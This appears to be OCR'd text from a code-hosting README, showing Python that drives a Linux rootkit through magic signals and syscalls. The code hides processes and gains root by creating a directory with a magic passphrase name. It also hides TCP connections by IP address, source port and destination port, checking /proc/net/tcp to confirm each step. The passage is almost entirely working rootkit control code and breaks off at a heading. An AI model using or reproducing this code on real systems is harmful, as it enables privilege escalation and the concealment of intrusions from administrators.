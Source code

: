 ```python
kill(getpid(), 14600) # i use the default signal, you should use your own signal if added as parameters on load
print("Process found in /proc", "\n".join(x for x in listdir("/proc/") if x.isdigit() and int(x) == pid))
system("ps aux | grep python")

####################
# ROOT PERMISSIONS #
####################

print("Current UID:", getuid())
system("whoami")
mkdir("1 4m 6r00t") # i use the default passphrase, you should use your own passphrase if added as parameters on load
print("Current UID:", getuid())
system("whoami")

#########################
# HIDE IPv4 CONNECTIONS #
#########################

syscall = CDLL(None).syscall
KILL = 62

s = socket()
s.connect(("8.8.8.8", 53))
if not system("grep 08080808:35 /proc/net/tcp"):
    print("Connection found")

ip_integer_value = int(ip_address("8.8.8.8"))
# OR
ip_integer_value = sum([x << (i * 8) for i, x in enumerate((8, 8, 8, 8)[::-1])])
# OR
ip_integer_value = int.from_bytes(bytes((8, 8, 8, 8)))
syscall(KILL, ip_integer_value, 0xdead) # i use the default signal, you should use your own signal if added as parameters on load

if system("grep 08080808:35 /proc/net/tcp"):
    print("Connection not found")

s.close()

###################################
# HIDE CONNECTIONS BY SOURCE PORT #
###################################

s = socket()
s.bind(("0.0.0.0", 59485))
s.connect(("4.4.4.4", 53))
if not system("grep 04040404:35 /proc/net/tcp"):
    print("Connection found")

try:kill(59485, 666) # i use the default signal, you should use your own signal if added as parameters on load
except:pass

if system("grep 04040404:35 /proc/net/tcp"):
    print("Connection not found")

s.close()

########################################
# HIDE CONNECTIONS BY DESTINATION PORT #
```